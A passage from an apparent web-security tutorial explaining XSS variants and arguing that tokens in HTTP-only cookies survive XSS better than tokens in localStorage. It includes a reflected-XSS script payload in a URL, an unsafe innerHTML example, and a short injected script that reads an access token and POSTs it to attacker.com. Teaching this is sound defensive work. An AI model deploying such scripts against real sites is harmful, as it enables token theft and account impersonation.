 **Scenario 2: Reflected XSS**
An attacker sends you a link like: `https://yourapp.com/search?q=<script>alert('xss')</script>`. If your app displays the search query without escaping it, the script executes.

**Scenario 3: DOM-based XSS**
Your JavaScript code directly manipulates the DOM based on user input:
```javascript
// Dangerous!
element.innerHTML = userInput;
```

**Scenario 4: Supply Chain Attacks**
A third-party library you use gets compromised, or a CDN you trust serves malicious code.

**The bottom line:** XSS is frighteningly common. Even giants like Google and Facebook have had XSS vulnerabilities. If you're using JavaScript to build web apps, you will face XSS risks.

### XSS Impact on LocalStorage (The Nightmare Scenario)

Here's the harsh truth: **If an attacker can execute JavaScript on your page and you're using localStorage, your tokens are completely exposed.**

The attack is trivially easy:

```javascript
// Attacker's injected script (just 3 lines!)
const stolenToken = localStorage.getItem('access_token');
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: JSON.stringify({ token: stolenToken, userAgent: navigator.userAgent })
});
```

**What just happened?**
1. The attacker's script reads your token from localStorage (no protection prevents this)
2. They send it to their server
3. They now have your authentication token and can impersonate you

**The lasting damage:**
- The attacker can make API calls as you from *their own computer*
- They can access your sensitive data
- They can perform actions on your behalf
- **Even after you patch the XSS vulnerability**, the attacker still has your token until it expires
- They could use your token for days or weeks (depending on your expiration time)

### XSS Impact on HTTP-Only Cookies (The Silver Lining)

Here's where HTTP-only cookies shine. **The attacker cannot read the token, period.**

Try as they might, this attack fails:

```javascript
// Attacker's script - fails completely
console.log(document.cookie); // Won't show httpOnly cookies
localStorage.getItem('access_token'); // Token isn't here either
// The token is completely inaccessible to JavaScript
```

